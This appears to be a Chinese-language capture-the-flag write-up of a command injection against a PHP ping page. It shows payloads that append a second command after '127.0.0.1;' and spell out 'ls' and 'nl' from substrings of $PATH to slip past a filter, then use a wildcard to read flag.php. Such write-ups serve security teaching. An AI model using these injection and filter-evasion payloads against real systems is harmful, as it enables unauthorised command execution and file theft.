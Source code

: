 ```
root@ecs-sn3-medium-2-win-20191202181542:~# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

尝试构造 `ls`

```
root@ecs-sn3-medium-2-win-20191202181542:~# echo ${PATH:5:1}${PATH:2:1}
ls
```

构造 `127.0.0.1;${PATH:5:1}${PATH:2:1}`

页面回显 `
HTTP/1.1 200 OK Server: nginx/1.16.1 Date: Mon, 28 Sep 2020 14:28:43 GMT Content-Type: text/html; charset=UTF-8 Connection: keep-alive X-Powered-By: PHP/7.3.11 P1099.php flag.php index.php login.php style.css style2.css `

有个flag.php，构造读取flag.

```
root@ecs-sn3-medium-2-win-20191202181542:~# echo ${PATH:14:1}${PATH:5:1}
nl
```

payload: `127.0.0.1;${PATH:14:1}${PATH:5:1} ????.???`

得到flag.

![0VT20U.png](https://s1.ax1x.com/2020/09/28/0VT20U.png)